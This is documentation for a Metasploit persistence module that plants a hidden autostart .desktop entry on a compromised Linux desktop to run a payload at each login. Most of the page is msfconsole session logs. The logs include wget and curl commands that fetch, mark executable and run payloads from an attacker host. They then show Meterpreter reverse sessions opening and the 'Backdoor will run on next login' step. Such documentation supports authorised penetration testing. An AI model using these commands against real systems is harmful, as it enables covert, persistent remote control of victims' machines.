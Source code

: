 ## Vulnerable Application

This module will create an autostart `.desktop` entry to execute a payload.
The payload will be executed when the users logs in.

Verified on Ubuntu 22.04 desktop with Gnome, and 18.04.3.
The following payloads were used in testing:
- `cmd/unix/reverse_netcat`
- `linux/x64/meterpreter/reverse_tcp`
- `cmd/linux/http/x64/meterpreter/reverse_tcp`

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/autostart`
3. `set SESSION <id>`
4. `exploit`

When the victim logs in, your payload will be executed!

## Options

**BACKDOOR_NAME**

Name of autostart entry. Defaults to a randomly generated name

**PAYLOAD_NAME**

Name of the payload file to write. Defaults to a randomly generated name

**USER**

User to target, or current user if blank

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l

[*] Server started.
[*] Run the following command on the target machine:
wget -qO FWdHRs3A --no-check-certificate http://111.111.1.111:8181/l; chmod +x FWdHRs3A; ./FWdHRs3A& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.222    web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:57884) at 2025-02-06 17:03:03 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/autostart 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/autostart) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/autostart) > exploit
[*] Command to run on remote host: curl -so ./xcsqfBQnCfcm http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./xcsqfBQnCfcm;./xcsqfBQnCfcm&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/autostart) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Xorg is installed, possible desktop install.
[!] Payloads in /tmp will only last until reboot, you may want to choose elsewhere.
[*] Making sure the autostart directory exists
[*] Uploading autostart file /home/ubuntu/.config/autostart/bHOXeW.desktop
[+] Backdoor will run on next login by ubuntu
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250206.0326/ubuntu18desktop.local_20250206.0326.rc
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
```

Login via gui

```
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:44316) at 2025-02-06 17:03:50 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/autostart) > 
```